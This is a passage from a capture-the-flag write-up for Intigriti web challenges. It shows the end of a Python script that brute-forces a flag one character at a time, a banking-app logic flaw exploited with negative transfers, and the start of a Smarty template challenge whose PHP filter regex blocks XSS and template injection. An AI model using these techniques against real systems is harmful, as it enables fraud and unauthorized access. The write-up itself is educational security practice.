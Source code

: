 ```python
        }
    }
    response = requests.post(url, json=json_payload, headers=headers)
    if "correct flag!" in response.text:
        if i == '}':
            flag = flag+i
            print("Done, Here is your flag: "+flag)
            exit
        else:
            flag = flag+i
            print("A new character in flag: "+flag)
```
![image](https://hackmd.io/_uploads/HkJ79zDV6.png)
Flag: `INTIGRITI{h0w_1s_7h4t_PAWSIBLE}`

### **2. Bug Bank**
- **Author:** fhantke
- **Caterogy:** Web
- **Description:** Welcome to BugBank, the world's premier banking application for trading bugs! In this new era, bugs are more valuable than gold, and we have built the ultimate platform for you to handle your buggy assets. Trade enough bugs and you have the chance to become a premium member. And in case you have any questions, do not hesitate to contact your personal assistant. Happy trading! 😺
![image](https://hackmd.io/_uploads/SkK7nGv4a.png)

**Solution:**

This challenge just create 2 user accounts and the 1st one gives the negative bugs to another.
![image](https://hackmd.io/_uploads/BkJbpMw4a.png)

I already have 10000000 bugs to get the flag.

![image](https://hackmd.io/_uploads/ryUmpGPVp.png)

So just get the flag !!

![image](https://hackmd.io/_uploads/ryWHpMPET.png)

Flag: `INTIGRITI{h3y_wh0_541d_y0u_c0uld_cl0bb3r_7h3_d0m}`


### **3. Smarty Pants**
- **Author:** Protag
- **Caterogy:** Web
- **Description:** Since you're so smart then you should have no problem with this one 🤓
![image](https://hackmd.io/_uploads/H1BRANPE6.png)

**Review source code:**
```php
<?php
if(isset($_GET['source'])){
    highlight_file(__FILE__);
    die();
}

require('/var/www/vendor/smarty/smarty/libs/Smarty.class.php');
$smarty = new Smarty();
$smarty->setTemplateDir('/tmp/smarty/templates');
$smarty->setCompileDir('/tmp/smarty/templates_c');
$smarty->setCacheDir('/tmp/smarty/cache');
$smarty->setConfigDir('/tmp/smarty/configs');

$pattern = '/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/';

```